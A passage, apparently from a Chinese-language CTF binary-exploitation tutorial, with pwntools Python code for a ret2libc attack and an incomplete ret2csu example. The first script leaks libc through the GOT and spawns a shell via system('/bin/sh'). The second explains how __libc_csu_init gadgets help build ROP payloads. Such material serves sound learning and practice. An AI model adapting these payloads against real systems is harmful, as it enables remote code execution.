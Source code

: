 ```python
#另类libc
elf = ELF("./pwn")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
pop_rdi = 0x4008e3  # 0x00000000004008e3 : pop rdi ; ret
ret = 0x400576      # 0x0000000000400576 : ret
fgetc_got = elf.got['fgetc']
main = elf.sym['main']
puts_plt = elf.plt['puts']
payload = 'a'*(0x110 - 0x4) + '\x18' + p64(pop_rdi) + p64(fgetc_got) + 
p64(puts_plt) + p64(main)
io.sendlineafter("T^T\n", payload)
fgetc = u64(io.recv(6).ljust(8, "\x00"))
print hex(fgetc)
libc_base = fgetc - libc.sym['fgetc']
system_addr = libc_base + libc.sym['system']
bin_sh = libc_base + libc.search("/bin/sh").next()
print "libc_base = " + hex(libc_base)
payload = 'a'*(0x110 - 0x4) + '\x18' + p64(pop_rdi) + p64(bin_sh) + p64(ret) + 
p64(system_addr)
io.sendlineafter("T^T\n", payload)



```



##### ret2csu:

 在 64 位程序中，函数的前 6 个参数是通过寄存器传递的，但是大多数时候，我们很难找到每一个寄存器对应的 gadgets。 这时候，我们可以利用 x64 下的 __libc_csu_init 中的 gadgets。这个函数是用来对 libc 进行初始化操作的，而一般的程序都会调用 libc 函数，所以这个函数一定会存在。 

```python
#案例
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
```